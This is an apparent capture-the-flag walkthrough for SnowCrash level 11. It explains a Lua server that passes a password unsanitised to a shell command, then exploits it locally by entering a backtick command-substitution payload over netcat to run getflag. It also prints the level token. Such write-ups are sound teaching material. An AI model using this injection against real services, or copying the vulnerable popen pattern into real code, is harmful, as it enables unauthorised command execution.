 
In this level, we have a Lua script that creates a simple server listening on port 5151. The script asks for a password, hashes it using SHA-1, and compares it with a hardcoded SHA-1 hash value. If the password matches the hardcoded hash, the client is congratulated. Otherwise, the server responds with "Erf nope..".

Lua Script Overview
The script can be found in level11.lua:

``` lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n")
      else
          client:send("Gz you dumb*\n")
      end
  end

  client:close()
end
```
How the Script Works:
Socket Binding: The script binds to 127.0.0.1 on port 5151 using Lua’s socket library.
Password Input: The server prompts for a password, which it hashes using the SHA-1 algorithm.
Password Comparison: The script compares the SHA-1 hash of the input password with the hardcoded value "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0".
If it matches, the client gets a success message ("Gz you dumb*\n").
If it doesn't match, the server responds with "Erf nope..\n".
Exploitation Plan
The goal is to execute the getflag command to retrieve the flag, but the server only lets us input a password and compares it to a hash. However, we can exploit the shell behavior to run a command during the password input process by using command substitution.

* Steps to Exploit

Connect to the Server: Use netcat (nc) to connect to the server running on 127.0.0.1 at port 5151.

Input Command Substitution: When asked for a password, instead of entering a string, we input a backtick command to run the getflag program and redirect its output to a file.

Retrieve the Flag: The server won’t accept the password because it doesn’t match the hardcoded hash, but the getflag command still runs, and its output is saved to a file of our choice.


##  1: Connect to the Server

``` bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
```

## 2: Exploit the Password Prompt with Command Substitution

When asked for a password, input the following:

``` bash
Password: `getflag > /tmp/flag11`
```

getflag is executed in the shell.
The output (the token) is redirected to /tmp/flag11.

## 3: Check the Flag
After the server responds with "Erf nope..", check the contents of /tmp/flag11:

``` bash
level11@SnowCrash:~$ cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

## Enter level12 

``` bash
level11@SnowCrash:~$ su level12
Password: fa6v5ateaw21peobuub8ipe6s
```